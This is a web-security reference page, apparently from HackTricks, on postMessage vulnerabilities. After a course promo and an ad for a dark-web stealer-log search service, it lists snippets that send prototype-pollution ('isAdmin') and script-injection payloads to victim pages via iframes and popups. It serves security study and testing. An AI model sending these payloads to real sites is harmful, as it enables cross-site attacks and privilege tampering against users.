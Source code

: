 # PostMessage Vulnerabilities

## PostMessage Vulnerabilities

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

### [WhiteIntel](https://whiteintel.io)

<figure><img src="../../.gitbook/assets/image (1227).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) is a **dark-web** fueled search engine that offers **free** functionalities to check if a company or its customers have been **compromised** by **stealer malwares**.

Their primary goal of WhiteIntel is to combat account takeovers and ransomware attacks resulting from information-stealing malware.

You can check their website and try their engine for **free** at:

{% embed url="https://whiteintel.io" %}

***

## Send **PostMessage**

**PostMessage** uses the following function to send a message:

```bash
targetWindow.postMessage(message, targetOrigin, [transfer]);

# postMessage to current page
window.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an iframe with id "idframe"
<iframe id="idframe" src="http://victim.com/"></iframe>
document.getElementById('idframe').contentWindow.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an iframe via onload
<iframe src="https://victim.com/" onload="this.contentWindow.postMessage('<script>print()</script>','*')">

# postMessage to popup
win = open('URL', 'hack', 'width=800,height=300,top=500');
win.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an URL
window.postMessage('{"__proto__":{"isAdmin":True}}', 'https://company.com')

# postMessage to iframe inside popup
win = open('URL-with-iframe-inside', 'hack', 'width=800,height=300,top=500');
## loop until win.length == 1 (until the iframe is loaded)
win[0].postMessage('{"__proto__":{"isAdmin":True}}', '*')
```